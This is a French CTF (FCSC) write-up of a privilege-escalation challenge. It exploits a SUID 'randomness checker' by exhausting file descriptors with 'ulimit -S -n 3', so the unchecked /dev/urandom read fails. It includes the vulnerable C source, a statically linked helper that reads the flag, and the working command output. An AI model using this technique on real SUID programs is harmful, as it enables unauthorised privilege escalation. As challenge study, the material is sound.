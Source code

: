 ```yaml
---
tags: [FCSC,0poss,op,misc]
title: Privesc Me (2) - "ALED" - Your randomness checker (misc - 194 pts)
---
```


# Privesc Me (2) - "ALED" - Your randomness checker (misc - 194 pts)

> Le dernier stagiaire de l'équipe nous a pondu un nouveau programme pour tester la robustesse des clés d'authentification que notre administrateur système utilise. Son outil est disponible dans le dossier stage1. Le chef a poussé un soupir d'agacement en voyant le code.

I found this one pretty fun and I think it was my favorite along with "It's mipsy router".

Once connected to the ssh, into the `stage1` folder, there are four files, `build.sh`, `flag.txt` (I wonder what that is), `stage1` (a SUID binary) and its source in `stage1.c`, here it is :
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#define BUF_SIZE 128

int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);

    fd = open("/dev/urandom", O_RDONLY, 0400);
    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
It initializes two 128 bytes-long arrays with zeros and compares them. If they are the same, we get to execute any program we want... maybe `sh` ?

The `build.sh` file contains `gcc stage1.c -static -o stage1`. I guess the `-static` is here to prevent any `LD_PRELOAD`, that would be to easy. But this option gave me the idea for the exploit.

By googling things like "predict /dev/urandom ctf writeup" I found several [writeup](https://nickcano.com/pwnables-write-ups-oct17/)s on several similar challenges that were using `ulimit -f 0` in order to limit "the maximum size of files created by the shell" (- man). But the program here doesn't create any file to write the random content to it, but just reads from `/dev/urandom`. So we have to prevent it from reading from `urandom` to keep the `randomness` array filled with zeros. The `-n` option in the `ulimit` command allows to set a limit on the number of opened file descriptors.
I modified the original source on my system to make it print when the file openings fail and where the comparaison fails :
```c
int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);
    if (-1 == fd_key)
	    puts("key open failed");

    fd = open("/dev/urandom", O_RDONLY, 0400);
    if (-1 == fd)
	    puts("/dev/urandom open failed");

    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    printf("%128s\n", randomness);
    printf("%128s\n", your_randomness);
    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
	    printf("%#x : (%#x != %#x)", i, randomness[i], your_randomness[i]);
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
Compile it with `gcc stage1.c -static -o stage1`.

By running `ulimit -n 3 ; ./stage1 osef /bin/sh` locally, we get :
```
bash: start_pipeline : pgrp pipe: Trop de fichiers ouverts
key open failed
/dev/urandom open failed                                                                                           
Ok, well done
/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24
```
It says "Ok, well done" (nice) but also `/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24`. Yeah obviously, `sh` is cannot load any dynlib since it already has 3 file descriptors open (stdin, stdout and stderr). So either we recompile `/bin/sh` statically, which I didn't do, or we just make another program, statically linked, to read the flag for us. Here it is :
```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/resource.h>

int main() {
	struct rlimit lim = { 0 };
	if (0 != getrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("Meh");
		return 1;
	}
	printf("Hard/soft limits : %ld/%ld\n", lim.rlim_cur, lim.rlim_max);

	lim.rlim_cur = lim.rlim_max;
	if (0 != setrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("w00t");
		return 2;
	}

	if (0 != getrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("Meh");
		return 3;
	}
	printf("Hard/soft limits : %ld/%ld\n", lim.rlim_cur, lim.rlim_max);

	char flag_buf[256] = { 0 };
	int fd = open("/home/challenger/stage1/flag.txt", O_RDONLY);
	if (-1 == fd)
	{
		puts("Phuck");
		return 4;
	}

	int red = read(fd, flag_buf, sizeof(flag_buf));
	printf("%d bytes read : %s\n", red, flag_buf);

	return 0;
}
```

It sets the soft limit of opened file descriptors to the maximum, that's why we need to use `-S` in the final exploit to set the soft limit instead of the default hard limit (which we can't increase afterwards).
I compile this remotly and...
```bash
$ ulimit -S -n 3 ; ./stage1 osef /tmp/yEyyy/exploit
-bash: start_pipeline: pgrp pipe: Too many open files
Ok, well done
Hard/soft limits : 3/1048576
Hard/soft limits : 1048576/1048576
70 bytes read : FCSC{6bd1152e8dcefc368b08a3e82241bc83ea7a613a3322c6a2d818d408e1fb4d60}
```

Yay.
